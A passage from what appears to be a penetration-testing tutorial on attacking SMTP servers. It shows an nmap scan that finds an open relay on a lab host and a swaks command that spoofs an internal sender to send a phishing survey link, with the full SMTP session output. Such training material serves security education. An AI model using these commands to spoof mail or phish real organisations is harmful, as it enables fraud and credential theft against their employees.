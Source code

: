 [2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
</code></pre>
<hr/>
<h2>Protocol Specifics Attacks</h2>
<p>An open relay is a Simple Mail Transfer Protocol (<code>SMTP</code>) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.</p>
<h4>Open Relay</h4>
<p>From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the <code>nmap smtp-open-relay</code> script, we can identify if an SMTP port allows an open relay.</p>
<pre><code class="language-shell-session">[!bash!]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
</code></pre>
<p>Next, we can use any mail client to connect to the mail server and send our email.</p>
<pre><code class="language-shell-session">[!bash!]# swaks --from <a class="__cf_email__" data-cfemail="fc929388959a959f9d889593928fbc9592909d92999a8e99959b9488d29f9391" href="/cdn-cgi/l/email-protection">[email protected]</a> --to <a class="__cf_email__" data-cfemail="badfd7cad6d5c3dfdfc9fad3d4d6dbd4dfdcc8dfd3ddd2ce94d9d5d7" href="/cdn-cgi/l/email-protection">[email protected]</a> --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
&lt;-  220 mail.localdomain SMTP Mailer ready
 -&gt; EHLO parrot
&lt;-  250-mail.localdomain
&lt;-  250-SIZE 33554432
&lt;-  250-8BITMIME
&lt;-  250-STARTTLS
&lt;-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
&lt;-  250 HELP
 -&gt; MAIL FROM:&lt;<a class="__cf_email__" data-cfemail="8ae4e5fee3ece3e9ebfee3e5e4f9cae3e4e6ebe4efecf8efe3ede2fea4e9e5e7" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
&lt;-  250 OK
 -&gt; RCPT TO:&lt;<a class="__cf_email__" data-cfemail="6c09011c00031509091f2c0502000d02090a1e09050b0418420f0301" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
&lt;-  250 OK
 -&gt; DATA
&lt;-  354 End data with &lt;CR&gt;&lt;LF&gt;.&lt;CR&gt;&lt;LF&gt;
 -&gt; Date: Thu, 29 Oct 2020 01:36:06 -0400
 -&gt; To: <a class="__cf_email__" data-cfemail="8feae2ffe3e0f6eaeafccfe6e1e3eee1eae9fdeae6e8e7fba1ece0e2" href="/cdn-cgi/l/email-protection">[email protected]</a>
 -&gt; From: <a class="__cf_email__" data-cfemail="81efeef5e8e7e8e2e0f5e8eeeff2c1e8efede0efe4e7f3e4e8e6e9f5afe2eeec" href="/cdn-cgi/l/email-protection">[email protected]</a>
 -&gt; Subject: Company Notification
 -&gt; Message-Id: &lt;20201029013606.775675@parrot&gt;
 -&gt; X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -&gt; 
 -&gt; Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/